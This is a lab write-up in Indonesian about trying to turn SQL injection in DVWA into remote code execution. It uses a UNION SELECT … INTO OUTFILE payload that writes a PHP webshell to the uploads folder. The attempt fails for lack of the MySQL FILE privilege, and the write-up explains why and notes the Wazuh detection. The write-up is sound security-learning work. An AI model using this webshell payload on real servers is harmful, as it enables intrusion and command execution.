

# SQL Injection → INTO OUTFILE Webshell Attempt — DVWA (Web-Server)

## Tujuan

Lanjutan dari lab [SQL Injection](../sql-injection/README.md) — coba eskalasi SQL Injection jadi RCE lewat teknik `INTO OUTFILE` (nulis file PHP webshell ke web root pakai privilege database). Sekaligus validasi: apakah privilege scoping akun database (`dvwa`@`localhost`) cukup buat nahan eskalasi dari "SQLi read-only" jadi "RCE".

---

## Prerequisites

- Sudah menyelesaikan lab [SQL Injection](../sql-injection/README.md) — paham baseline query & jumlah kolom (2 kolom: `first_name`, `last_name`)
- DVWA **Security Level** `Low`
- Target direktori tulis: `/var/www/html/hackable/uploads/` — world-writable (`chmod 777`, lihat [`dvwa-setup.md`](../../../Infrastructure/dvwa-setup.md)), jadi kandidat paling natural buat lokasi webshell

---

## Step-by-Step

### 1. Payload

```sql
1' UNION SELECT '<?php system($_GET["cmd"]); ?>',2 INTO OUTFILE '/var/www/html/hackable/uploads/shell.php'-- -
```

Konsepnya: kolom pertama diisi kode PHP webshell (`system($_GET["cmd"])` — command execution lewat parameter GET `cmd`), `INTO OUTFILE` nyuruh **MySQL Server sendiri** yang nulis hasil query itu ke file di path yang ditentuin.



### 2. Hasil — Gagal

Response halaman:

```
Fatal error: Uncaught mysqli_sql_exception: Access denied for user 'dvwa'@'localhost' (using password: YES) in /var/www/html/vulnerabilities/sqli/source/low.php:11
Stack trace:
#0 /var/www/html/vulnerabilities/sqli/source/low.php(11): mysqli_query()
#1 /var/www/html/vulnerabilities/sqli/index.php(34): require_once('...')
#2 {main}
  thrown in /var/www/html/vulnerabilities/sqli/source/low.php on line 11
```

---

## Root Cause — Kenapa Gagal

Cek ulang `dvwa-setup.md`, waktu bikin akun database DVWA:

```sql
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';
```

`FILE` itu privilege **level global** (`ON *.*`), **bukan** privilege yang bisa di-scope per-database (`ON dvwa.*`). Jadi walau grant-nya nulis "ALL PRIVILEGES", user `dvwa`@`localhost` **gak dapet** `FILE` — MySQL Server nolak nulis file apapun ke disk, terlepas dari query SQL Injection-nya sendiri sukses dieksekusi atau nggak.

---

## Verifikasi

| Payload | HTTP Status | Hasil Exploit | Ke-detect Wazuh? | Rule |
|---|---|---|---|---|
| `1' UNION SELECT '<?php...>',2 INTO OUTFILE '...shell.php'-- -` | 200 | ❌ Gagal — `Access denied`, file gak ke-tulis | ✅ Ya | **31106** — "A web attack returned code 200 (success)", level 6 |

**Catatan:** meskipun hasilnya PHP Fatal Error, HTTP status tetep `200` (error PHP-level, bukan HTTP-level), jadi rule default `31106` tetep ke-trigger. Custom rule kita (`100200`-`100202` di [`sql_injection_rules.xml`](../../../Detection-Engineer/wazuh-rules/sql_injection_rules.xml)) yang seharusnya independen dari status code **belum ke-konfirmasi jalan** buat request ini — masih dalam tahap debugging terpisah, hasil validasinya di-track di [`sql-injection/README.md`](../sql-injection/README.md).

---

## Kesimpulan

1. **SQL Injection tetep berhasil dieksekusi** — query-nya jalan sampai ke MySQL Server, gak di-block di level aplikasi (Security Level `Low` gak sanitasi input `id`).
2. **Eskalasi ke RCE gagal** — karena privilege `FILE` gak nempel ke akun `dvwa`@`localhost`. Ini murni konsekuensi dari `GRANT` yang di-scope ke satu database (`dvwa.*`), bukan hardening yang sengaja dipasang buat lab ini.
3. Ini nunjukin **defense-in-depth** yang efektif walau gak disengaja: aplikasi tetep vulnerable ke SQLi (attacker bisa baca data — confirmed di lab sebelumnya), tapi **privilege scoping di layer database** berhasil ngebatesin blast radius-nya sampai gak bisa nulis file/dapet shell. Konfigurasi database yang baik (least privilege) setidaknya **memperlambat kinerja seorang attacker**, bahkan kalau exploitation awal (SQLi) berhasil.
